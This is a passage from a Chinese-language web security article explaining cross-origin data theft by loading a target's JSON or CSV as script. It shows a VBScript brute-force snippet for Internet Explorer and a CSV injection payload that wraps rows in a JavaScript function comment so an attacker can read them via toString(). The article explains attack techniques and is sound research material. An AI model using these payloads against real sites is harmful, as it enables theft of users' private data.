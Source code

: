 然后再我们的攻击界面中调用vbscript

```
<SCRIPT language="vbscript">
Sub [1,"xyz121"]: MsgBox "value=xyz121": End Sub
Sub [1,"xyz122"]: MsgBox "value=xyz122": End Sub
Sub [1,"xyz123"]: MsgBox "value=xyz123": End Sub
Sub [1,"xyz124"]: MsgBox "value=xyz124": End Sub
</SCRIPT>
<!-- load target JSON as VBScript -->
<SCRIPT src="(target data's URL)" language="vbscript"></SCRIPT>

```

跟上面的攻击相似，都是通过穷举来获取目标值。不过vbscript只试用于ie。

ps: 怎么说呢。。。我觉得好蛋疼。

CSV with quotations thef
------------------------

* * *

上面获取csv的信息只在目标的字符串没被引号扩起来的情况下，不过同样是一些小技巧能够使我们绕过这一限制。

让我们假设一个csv长这个b样。

`1,"___","aaa@a.example","03-0000-0001"`

`2,"foo","bbb@b.example","03-0000-0002"`

`...`

`98,"bar","yyy@example.net","03-0000-0088"`

`99,"___","zzz@example.com","03-0000-0099"`

假设攻击者能够插入自己的字符串，那么只需要根据RFC相关CSV (RFC 4180 (12])中的规定来添加一个双引号就可以bypass这个限制。

for example

`1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"`

`2,"foo","bbb@b.example","03-0000-0002"`

`...`

`98,"bar","yyy@example.net","03-0000-0088"`

`99,"*/}//","zzz@example.com","03-0000-0099"`

一个比较蛋疼的问题就是如何获取多行的信息，因为多行在js中是违法的，上面的例子里，我们使用 $$$=function() {/_…_/}来进行攻击，然后攻击者可以调用$$$.toString() 获取函数远吗来达到攻击目标数据的目的。这种攻击方式试用于所有的浏览器。

一种获取多行内容的方式可以在chrome和firefox中奏效，就是ECMAScript6模版字符串中通过反引号来获取多行内容。

0x02 结论
=======

* * *

下面是需要注意的一些问题。
